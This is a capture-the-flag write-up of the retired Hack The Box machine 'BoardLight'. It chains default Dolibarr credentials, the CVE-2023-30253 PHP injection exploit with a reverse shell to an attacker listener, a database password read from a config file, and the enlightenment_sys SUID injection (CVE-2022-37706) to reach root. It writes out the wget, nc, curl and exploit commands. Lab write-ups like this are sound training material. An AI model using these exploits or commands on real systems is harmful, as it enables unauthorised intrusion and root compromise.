







## BoardLight
### Info:
- Name: **BoardLight**
- OS: **Linux**
- Type: **Unauthenticated**
- Difficulty: **Easy**
- Status: **Retired**

### Content:
- [**`testing.md`**](https://github.com/cac3r/htb_machines/blob/main/boardlight/testing.md)                - Raw notes / working log
- [**`report.pdf`**](https://github.com/cac3r/htb_machines/blob/main/boardlight/report.pdf)                - Professional report
- [**`attack_chain.png`**](https://github.com/cac3r/htb_machines/blob/main/boardlight/attack_chain.png)   - Attack chain diagram
- `screenshots/`           - Supporting screenshots

---
---
### Brief:
#### Initial access: `Dolibarr 17.0.0` CVE-2023-30253 PHP code injection
Starting the test against the target system `boardlight` unauthenticated. After network/host reconnaissance, enumerating the exposed HTTP web service at port 80 discover domain `board.htb`. Doing Virtual Host fuzzing discover subdomain `crm.board.htb`. This subdomain hosts Dolibarr CRM, version `17.0.0`. Searching this fingerprinted technology surfaces a known vulnerability CVE-2023-30253 which enables PHP code injection to authenticated users. Trying the standard/most-common defaults in the Login page (`index.php`) discover `admin:admin` credential is valid. With valid authentication can now employ an automated PoC for CVE-2023-30253 (https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) which uses the Dolibarr function to create websites and pages to inject PHP code, bypassing a blocklist of PHP script tags (`<?php`) using uppercase tags (`<?PHP`), achieving to execute arbitrary PHP code in the server. The automated exploit directly executes a reverse shell payload. Setting a listener in the attacker system and executing the script pointing at the attacker listener, obtain a shell as the account running the web server, `www-data`.
#### Credential expansion: Dolibarr database account credential in configuration file
In the system find home directory for `larissa` (`/home/larissa`), noted as system user. Navigating the webroot as `www-data` discover Dolibarr application configuration file (`/var/www/html/crm.board.htb/htdocs/conf/conf.php`) containing database configuration, disclosing the database account credential (`dolibarrowner:serverfun2$2023!!`). 
#### Pivot to system user `larissa`: Password reuse
Checking for password reuse across the database account `dolibarrowner` and the system user `larissa` turns out to be reused, connecting to the target system via SSH.
#### Privilege escalation: `enlightenment_sys` SUID CVE-2022-37706
Connected as `larissa` enumerate SUID binaries and discover `enlightenment_sys` (`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`). As with Dolibarr version, searching this binary surfaces a known vulnerability CVE-2022-37706 which exploits a flaw of the program validating the path specified by user when using `/bin/mount` with `enlightenment_sys`. This is abused by setting the path to an allowlisted `/dev/` path, followed by a separator `;` to break the original line and inject system commands. Creating a file (example: `exploit`) containing simple shell `/bin/sh` in a writable directory (`/tmp`) to execute it using the injection point, so final payload is `/dev/../tmp/;/tmp/exploit`. This is automated using a public script (https://github.com/KaoXx/CVE-2022-37706/blob/main/exploit.sh), served running a python HTTP server on attacker system and downloaded to target system. `enlightenment_sys /bin/mount` runs as root (SUID) so, once executed, obtain a shell as root.

---
---
### Techniques
- Default credentials (Dolibarr)
- Authenticated PHP code injection affecting `Dolibarr 17.0.0` (CVE-2023-30253)
- Reading web application (Dolibarr) configuration to disclose database account credential
- `enlightenment_sys` SUID privilege escalation (CVE-2022-37706)

---
---
### Lesson
#### Authenticated PHP code injection affecting `Dolibarr 17.0.0` (CVE-2023-30253)

https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253

Dolibarr is an open source CRM ([Customer Relationship Management](https://www.ibm.com/think/topics/erp-vs-crm)). 
Dolibarr lets authenticated users build web pages/sites inside the application (a CMS-like feature). This is why having authentication (in this case from default admin credential) can create a website and a page including malicious code that is executed by the server. 
The backend filters php tags (`<?php`) but is bypassed because it fails to block the tag in uppercase (`<?PHP`) , executing the PHP code.



Dolibarr login page.
Version: `Dolibarr 17.0.0`

Browsing the fingerprinted technology surfaces a CVE and PoCs.
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253



This CVE-2023-30253 allows PHP Code Injection, but need valid authentication

Back in login.

First try with admin:admin and redirected to admin panel, with error of Access denied.



Searching for default credentials on this technology see admin:admin as a known default credential. https://www.defaultcredentials.org/en/credentials/dolibarr-dolibarr

Using PHP code injection exploit with this credential.

Download Poc:

```
wget https://raw.githubusercontent.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/refs/heads/main/exploit.py
```

Allow execution

Setting up listener

```
nc -nlvp 9001
```

Run PoC script:

```
python3 exploit.py http://crm.board.htb admin admin 10.10.15.242 9001
```



On listener tab



Connected to target system

---
#### Reading web server configuration to find database account credential

Path to db conf: `/var/www/html/<host>/htdocs/conf/conf.php`
This is Dolibarr application specific path.

In `/var/www/html/crm.board.htb/htdocs/conf` list contents of `conf.php`, contains username and password for database account in plaintext.



Database name: `dolibarr`

Username: `dolibarrowner`

Password: `serverfun2$2023!!`

---
#### `enlightenment_sys` SUID privilege escalation (CVE-2022-37706)

Enlightenment is a Linux window manager / desktop environment (like GNOME or KDE, a graphical desktop).
It comes with helper binary: `enlightenment_sys`, that is SUID to root by design, the desktop environment needs to do certain privileged operations on the user’s behalf, like mounting/unmounting drives (when you plug in a USB, the desktop mounts it). 
This privileged mounting function can be abused by injecting commands in the specified mount path. 

Script allowlists paths that come from `/dev/`, so can start the path from `/dev/` and add a valid path, for example `/tmp`, using directory traversal `..` (`/dev/../tmp/`). After the path is valid can inject command using separator `;` to run an attacker created script containing simple shell `/bin/sh`, full path being (`/dev/../tmp/;/tmp/exploit`). As this binary executes as root (SUID), a root shell is obtained in the target system.

Automated exploitation using: https://github.com/KaoXx/CVE-2022-37706/blob/main/exploit.sh

.png)

1. Script checks whether the SUID binary exists in the system
2. Makes temporary directories (`/tmp`)
3. Creates the file `exploit` in `/tmp`, and allows execution
4. Executes the `enlightenment_sys` binary, `mount` function, running the `exploit` as root

Command:

```
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

Download sh script

```
wget https://raw.githubusercontent.com/KaoXx/CVE-2022-37706/refs/heads/main/exploit.sh
```

Serve it with python http server

```
python3 -m http.server
```

Download from target system: (changed directory to `/tmp`)

```
curl http://10.10.15.242:8000/exploit.sh -o exploit.sh
```

Allow execution

Execute

```
./exploit.sh
```

Context, proof:

```
whoami && ifconfig | grep inet
```



Shell as root
